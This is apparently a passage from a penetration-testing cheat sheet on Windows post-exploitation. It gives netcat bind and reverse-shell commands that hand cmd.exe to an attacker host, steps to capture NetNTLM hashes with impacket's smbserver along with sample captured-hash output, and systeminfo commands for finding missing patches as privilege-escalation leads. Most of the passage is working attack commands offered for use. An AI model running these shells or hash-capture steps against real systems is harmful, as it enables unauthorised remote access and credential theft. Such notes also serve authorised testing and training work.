 Bind cmd to a port:

```
nc.exe -Lp 31337 -vv -e cmd.exe
```

Reverse shell:

```
nc.exe attacker_ip attacker_port -e cmd.exe
```

## To capture NTLM hash

```
https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/
```

Spin up smbserver.py and connect via smb to your server on kali. ie smbclient -L //$kali$ip

```
/usr/share/doc/python-impacket/examples/smbserver.py -smb2support test . 
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (victimip:port)
[*] AUTHENTICATE_MESSAGE (MicrosoftAccount\emailhere@gmail.com,DESKTOP-12345A)
[*] User emailhere@gmail.com\DESKTOP-123456A authenticated successfully
[*]emailhere@gmail.com::MicrosoftAccount:aad3c435b514a4eeaad3b935b51304fec46b9e58:aad3c435b514a4eeaad3b935b51304fec46b9e58:aad3c435b514a4eeaad3b935b51304fec46b9e58
```

## System info

Finding installed software, running processes, bind ports, and OS version might be critical to identify the right EoP vector.

Find installed patches, architecture, OS version

```
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
```

Get exact OS version

```
type C:/Windows/system32/eula.txt
```

{% hint style="success" %}
Hotfix(s): N/A\
If there are no Hot fixes then its likely the system is vulnerable to kernel exploit
{% endhint %}

